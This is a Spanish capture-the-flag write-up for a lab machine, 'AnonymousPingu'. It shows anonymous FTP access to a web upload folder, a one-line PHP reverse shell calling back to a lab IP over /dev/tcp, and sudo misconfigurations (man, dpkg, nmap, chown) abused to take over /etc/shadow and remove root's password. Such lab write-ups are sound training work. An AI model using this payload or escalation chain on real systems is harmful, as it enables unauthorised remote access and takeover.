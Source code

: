 ```yaml
---
description: '🧠Dificultad: Fácil | 🔓31/08/2025'
---
```


# AnonymousPingu

## 🕵️ Reconocimiento

El escaneo de puertos nos dice que hay un servicio FTP con login anónimo, y un servicio HTTP :

<figure><img src="../../.gitbook/assets/image (37).png" alt=""><figcaption></figcaption></figure>

En el servicio FTP se encuentran los archivos utilizados para el servicio web. La carpeta `upload` está habilitada para subir contenido. Además, si accedemos a este directorio desde el servicio web, nos encontramos con un `directory listing` .

<div align="left"><figure><img src="../../.gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure></div>

## 🚪 Ganando acceso

Probamos a subir una reverse shell en PHP a la carpeta `upload` por FTP.

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/172.17.0.1/4444 0>&1'"); ?>
```

<figure><img src="../../.gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>

## 💥 Escalando privilegios

Si comprobamos los permisos que tenemos con `sudo`, vemos que podemos ejecutar el binario `man` como `pingu` sin necesidad de contraseña.

<figure><img src="../../.gitbook/assets/image (31).png" alt=""><figcaption></figcaption></figure>

En [gtfobins](https://gtfobins.github.io/gtfobins/man/) vemos que podemos explotar esta configuración para obtener una shell con el usuario `pingu`. Antes de mostrar la explotación de esta configuración, cabe destacar que es necesario mejorar la shell con los siguientes comandos:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
# Suspendemos la terminal con CTRL + Z
stty raw -echo; fg
reset
```

<figure><img src="../../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

Del mismo modo, con `sudo -l` vemos que podemos ejecutar el binario `dpkg` y `nmap` como `gladys` sin contraseña. Usamos el exploit de gtfobins:

<figure><img src="../../.gitbook/assets/image (33).png" alt=""><figcaption></figcaption></figure>

Una vez dentro como gladys, vemos de nuevo que tenemos permisos para ejecutar como `root` el binario `chown` . Esto nos hace poder cambiar el propietario y grupo del fichero que queramos. Si nos hacemos dueños del fichero `/etc/shadow`, podemos mirar posibles contraseñas o escribirlas:

<figure><img src="../../.gitbook/assets/image (34).png" alt=""><figcaption></figcaption></figure>

Modificando el fichero, podemos dejar sin contraseña al usuario `root`.

<div align="left"><figure><img src="../../.gitbook/assets/image (36).png" alt=""><figcaption></figcaption></figure></div>
